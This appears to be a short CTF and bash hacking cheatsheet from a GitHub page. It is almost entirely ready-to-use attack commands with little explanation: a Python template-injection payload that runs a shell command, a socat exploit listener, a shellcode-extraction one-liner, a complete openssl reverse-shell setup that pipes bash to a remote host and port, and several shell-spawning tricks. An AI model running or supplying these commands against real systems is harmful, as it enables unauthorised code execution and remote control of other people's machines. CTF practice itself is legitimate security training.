 # Bash And CTF Cheatsheet

## Server Side Template Injection
```bash
{{ ().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].system('cat flag.txt') }}
```


## Bash Hack

### Bashfuck
Executing command without using alphanum characters

[BasFuck](https://github.com/trichimtrich/bashfuck)

### Socat

```bash
socat -d -d -d TCP4-LISTEN:1337,reuseaddr,fork EXEC:"python pwn.py" > /dev/null 2>&1 &
```

### Shellcode Extractor

```bash
objdump -d ./orww|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
Source : [http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/](http://www.ilmuhacking.com/exploit/belajar-membuat-shellcode-part-1/) 

### Reverse SSL shell openssl - @ThemsonMester

Before the listener can be started, a key pair and a certificate must be generated.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

#### Listener
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>
```

#### Shell
```bash
mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <HOST>:<PORT> > /tmp/s; rm /tmp/s
```
Source : [https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c](https://medium.com/@honze_net/reverse-shell-and-some-magic-39629ccd0e5c)

### Spawn("/bin/bash") if no python installed

No python installed for the 'pty.spawn("/bin/bash")' trick? Can use expect or script as well :D

#### Script
```bash
SHELL=/bin/bash script -q /dev/null
```

#### expect
```bash
expect -c 'spawn bash; interact'
```
Source : [https://twitter.com/ropnop/status/884928178048860160](https://twitter.com/ropnop/status/884928178048860160)


### awk
```bash
awk 'BEGIN {system("/bin/bash")}'
```